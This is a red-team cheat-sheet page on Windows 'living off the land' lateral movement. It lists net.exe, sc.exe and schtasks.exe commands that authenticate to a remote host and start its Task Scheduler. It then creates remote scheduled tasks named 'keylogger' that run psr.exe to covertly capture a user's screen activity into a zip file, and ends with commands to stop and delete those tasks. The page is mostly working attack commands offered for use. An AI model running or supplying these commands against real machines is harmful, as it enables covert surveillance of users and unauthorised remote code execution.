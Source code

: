 # Living off the Land

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Conditions

Ensure the `Task Scheduler` is running. Here are the commands.

```
C:\> net.exe use \\<IP>\IPC$ /user:<username> <password>
sc.exe \\<IP> config Schedule start= auto
sc.exe \\<IP> start Schedule
```

## 02 - Manual

TODO: Fill this info

## 03 - Scenarios

Taking screenshots via **Living off the Land (LofL)**.

```
C:\> net.exe time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Get-Date }

C:\> schtasks.exe /create /tn "keylogger" /tr "C:\Windows\system32\psr.exe /start /gui 0 /output C:\path\to\file.zip" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks.exe /run /tn "keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

Create schedule task to stop taking screenshots.

```
C:\> schtasks.exe /create /tn "stop_keylogger" /tr "C:\Windows\system32\psr.exe /stop" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks.exe /run /tn "stop_keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

Delete schedule tasks.

```
C:\> schtasks.exe /delete /f /tn "keylogger" /s <IP>

C:\> schtasks.exe /delete /f /tn "stop_keylogger" /s <IP>
```

Confirm schedule tasks are removed.

```
C:\> schtasks.exe /query /tn "keylogger" /fo List /v /s <IP>

C:\> schtasks.exe /query /tn "stop_keylogger" /fo List /v /s <IP>
```

---
## References

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

- [Schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)